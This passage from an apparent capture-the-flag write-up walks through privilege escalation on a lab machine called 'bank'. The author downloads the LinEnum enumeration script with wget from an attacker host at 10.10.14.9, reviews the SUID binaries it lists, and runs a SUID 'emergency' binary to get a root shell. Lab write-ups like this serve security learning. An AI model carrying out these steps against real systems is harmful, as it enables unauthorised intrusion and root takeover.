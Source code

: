 Kernel exploits are typically our last resort, as there is a risk that we crash the system in the process. 

There are several scripts that automates this process for us.

So I go to /dev/shm and upload a privsc script called LinEnum.

```

www-data@bank:/home/chris$ cd /dev/shm
cd /dev/shm
www-data@bank:/dev/shm$ wget http://10.10.14.9:8000/LinEnum.sh
wget http://10.10.14.9:8000/LinEnum.sh
--2018-12-02 23:04:58--  http://10.10.14.9:8000/LinEnum.sh
Connecting to 10.10.14.9:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 47066 (46K) [text/x-sh]
Saving to: 'LinEnum.sh'

100%[======================================>] 47,066      --.-K/s   in 0.1s

2018-12-02 23:04:58 (422 KB/s) - 'LinEnum.sh' saved [47066/47066]

www-data@bank:/dev/shm$ chmod +x LinEnum.sh
chmod +x LinEnum.sh
www-data@bank:/dev/shm$
```

And the output of the script gives us a couple of interesting findings.

### SUID file permissions

Checking the following output, at the top we see a file called emergency that has the SUID bit set and is owned by root.

```
[-] SUID files:
-rwsr-xr-x 1 root root 112204 Jun 14  2017 /var/htb/bin/emergency
-rwsr-xr-x 1 root root 5480 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 492972 Aug 11  2016 /usr/lib/openssh/ssh-keysign
-rwsr-xr-- 1 root messagebus 333952 Dec  7  2016 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 9808 Nov 24  2015 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-sr-x 1 daemon daemon 46652 Oct 21  2013 /usr/bin/at
-rwsr-xr-x 1 root root 35916 May 17  2017 /usr/bin/chsh
-rwsr-xr-x 1 root root 45420 May 17  2017 /usr/bin/passwd
-rwsr-xr-x 1 root root 44620 May 17  2017 /usr/bin/chfn
-rwsr-xr-x 1 root root 18168 Nov 24  2015 /usr/bin/pkexec
-rwsr-xr-x 1 root root 30984 May 17  2017 /usr/bin/newgrp
-rwsr-xr-x 1 root root 18136 May  8  2014 /usr/bin/traceroute6.iputils
-rwsr-xr-x 1 root root 66284 May 17  2017 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 156708 May 29  2017 /usr/bin/sudo
-rwsr-xr-x 1 root root 72860 Oct 21  2013 /usr/bin/mtr
-rwsr-sr-x 1 libuuid libuuid 17996 Nov 24  2016 /usr/sbin/uuidd
-rwsr-xr-- 1 root dip 323000 Apr 21  2015 /usr/sbin/pppd
-rwsr-xr-x 1 root root 38932 May  8  2014 /bin/ping
-rwsr-xr-x 1 root root 43316 May  8  2014 /bin/ping6
-rwsr-xr-x 1 root root 35300 May 17  2017 /bin/su
-rwsr-xr-x 1 root root 30112 May 15  2015 /bin/fusermount
-rwsr-xr-x 1 root root 88752 Nov 24  2016 /bin/mount
-rwsr-xr-x 1 root root 67704 Nov 24  2016 /bin/umount
```
Running that file gives us a root shell.
